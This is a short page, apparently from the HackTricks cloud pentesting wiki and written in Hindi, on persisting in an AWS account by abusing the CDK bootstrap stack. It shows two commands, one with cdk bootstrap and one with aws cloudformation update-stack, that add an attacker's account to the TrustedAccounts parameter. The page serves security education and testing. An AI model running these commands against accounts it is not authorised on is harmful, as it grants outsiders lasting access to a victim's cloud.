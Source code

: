 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

अधिक जानकारी के लिए, पहुँचें:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK एक CFN स्टैक को `CDKToolkit` के रूप में तैनात करता है। यह स्टैक एक पैरामीटर `TrustedAccounts` का समर्थन करता है जो बाहरी खातों को पीड़ित खाते में CDK परियोजनाओं को तैनात करने की अनुमति देता है। एक हमलावर इसका दुरुपयोग करके पीड़ित खाते में अनिश्चितकालीन पहुँच प्राप्त कर सकता है, या तो AWS cli का उपयोग करके स्टैक को पैरामीटर के साथ फिर से तैनात करके, या AWS CDK cli का उपयोग करके।
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
